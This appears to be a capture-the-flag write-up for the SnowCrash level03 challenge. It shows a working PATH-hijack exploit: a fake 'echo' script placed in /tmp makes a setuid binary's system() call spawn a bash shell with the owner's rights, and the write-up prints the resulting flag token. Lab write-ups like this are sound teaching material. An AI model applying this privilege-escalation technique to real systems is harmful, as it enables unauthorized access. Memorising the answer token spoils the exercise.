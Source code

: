 We find in the **home** folder a binary **level03** which, when we launch it, displays a message :
<pre><code>> ./level03
Exploit me</code></pre>

We want to know what the binary does, so we use **ltrace** :
<pre><code>> ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff7f4, 0x8048510, 0x8048580
getegid()											= 2003
geteuid()											= 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
system("/usr/bin/env echo Exploit me"Exploit me
--- SIGCHLD (Child exited) ---
<... system resumed> )
</code></pre>
We observe that the binary makes a **system** call to make a **echo**

So we try to change this call to have access to a shell with the owner's permissions :

<pre><code>> echo "/bin/bash" > /tmp/echo
> chmod 777 /tmp/echo && export PATH=/tmp:$PATH
</code></pre>
> We replace the **/bin/echo** by a **/bin/bash** to launch a new bash instance with higher rights (those of the owner)

Let's run our binary again :
<pre><code>> ./level03</code></pre>

Our user goes from <code>level03@SnowCrash</code> to <code>flag03@SnowCrash</code>

So our user has changed :
<pre>
<code>> getflag</code>
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
</pre>
> The **getflag** command is the only command we can do, of course, otherwise it would be possible for us to do what we want on the ISO


## Alternative

<pre><code>> echo "/bin/getflag" > /tmp/echo
> chmod 777 /tmp/echo && export PATH=/tmp:$PATH
</code></pre>

Let's run our binary again :
<pre><code>> ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
</code></pre>